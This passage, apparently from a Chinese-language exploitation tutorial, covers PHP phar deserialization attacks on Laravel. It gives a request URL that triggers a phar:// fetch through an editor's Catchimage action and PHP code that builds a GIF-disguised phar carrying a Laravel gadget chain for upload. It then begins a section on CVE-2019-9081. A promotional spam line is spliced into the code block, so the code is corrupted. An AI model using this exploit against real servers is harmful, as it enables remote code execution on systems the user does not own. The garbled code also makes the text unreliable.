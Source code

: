 ```
http://ip/server/editor/?action=Catchimage&source[]=phar://xxx.gif
```

然后在上面的5.8链的基础加上如下

```
@unlink("test.phar");
$phar = new \Phar("test.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');//设置stub
$phar->setMetadata($pendingBroadcast);//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");//添加要压缩的文件
$phar->stopBuffering();+WX：machinegunjoe免费领取资料
```

上传phar文件再用phar协议打即可

![图片](img/db3a98acbec25d3d8ac5e514203514ef.png)

## Laravel的CVE-2019-9081 

影响版本为5.7.x,当时别个搜CVE也能搜出来，先下载下来，lara5.7

但lara5.7里面没有vendor,在文件夹下，用cmd命令 composer install就可产生：

开始对比：

![在这里插入图片描述](img/6b4704f9263081f658ebfb9f64695156.png)

